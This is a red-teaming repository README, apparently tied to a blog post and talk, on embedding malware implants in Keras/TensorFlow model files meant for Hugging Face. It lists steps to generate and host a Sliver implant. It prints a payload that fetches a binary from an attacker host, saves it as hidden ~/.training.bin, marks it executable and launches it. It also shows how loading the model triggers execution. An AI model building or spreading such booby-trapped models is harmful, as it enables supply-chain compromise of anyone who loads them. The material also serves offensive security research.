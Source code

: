 # malicious_models
using ML models for red teaming 

This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


**Here it is in action:** 

[![YouTube Video Thumbnail](https://img.youtube.com/vi/ghG5BFNC6w0/0.jpg)](https://www.youtube.com/watch?v=ghG5BFNC6w0)


##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place.

## Using Simple_PoC

Modify lines 11 and 17 with your callout location and execution steps. 

More details in blog post. 

Execute the code - this will create a model folder which can be uploaded to hugging face. 

It will contain the bytecode of the exploit and not these python files. 
You will see a training output like this, indicating that it worked and is still generating proper model logic. 

![output of ml training](mloutput.png){: .mx-auto.d-block :} 



## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```
## Using the built model

Most model pipelines wo'nt have trouble runnign this model, to test locally, you can do this: 

predict.py:

 - Update the model name and data to match the defined input shape in your PoC code.

```
import numpy as np

from tensorflow import keras



model = keras.models.load_model("model_opendiffusion")

data = np.random.random((1, 32, 32, 3))

print(model.predict(data).squeeze())
``` 
